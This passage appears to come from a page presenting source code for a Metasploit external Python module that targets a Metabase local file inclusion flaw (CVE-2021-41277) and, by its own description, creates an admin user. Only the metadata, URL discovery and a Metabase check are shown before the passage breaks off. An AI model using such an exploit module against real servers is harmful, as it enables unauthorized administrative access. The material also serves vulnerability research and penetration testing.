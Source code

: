     if __name__ == '__main__':
        run()
    ```
* External module
    ```python
    #!/usr/bin/env python3

    # standard modules
    from metasploit import module

    # extra modules
    dependencies_missing = False
    try:
        import requests
        from urllib3.exceptions import ProtocolError
    except ImportError:
        dependencies_missing = True

    metadata = {
        'name': 'Metabase 0.40.0 - 0.40.4 Local File Inclusion',
        'description': '''
            This module creates an amin user by making use of Metabase 0.40.0 - 0.40.4 local file inclusion.
        ''',
        'authors': [
            'amylin',
        ],
        'date': '2022-03-09',
        'license': 'MSF_LICENSE',
        'references': [
            {'type': 'cve', 'ref': '2021-41277'},
        ],
        'type': 'single_scanner',
        'options': {
            'RPORT': {'type': 'int', 'description': 'Target port', 'required': True, 'default': 80},
            'TARGETURI': {'type': 'string', 'description': 'The base path', 'required': True, 'default': '/'},
        }
    }


    def find_base_url(args):
        base_url = f"http://{args['rhost']}:{args['RPORT']}{args['TARGETURI']}"
        try:
            result = requests.get(base_url, timeout=3)
        except ProtocolError:
            base_url = f"https://{args['rhost']}:{args['RPORT']}{args['TARGETURI']}"
            result = requests.get(base_url, timeout=3)
        return base_url


    def check_valid_url(url):
        res = requests.get(url, timeout = 3)
        if res and 'metabase' in res.text:
            return True
        else:
            return False
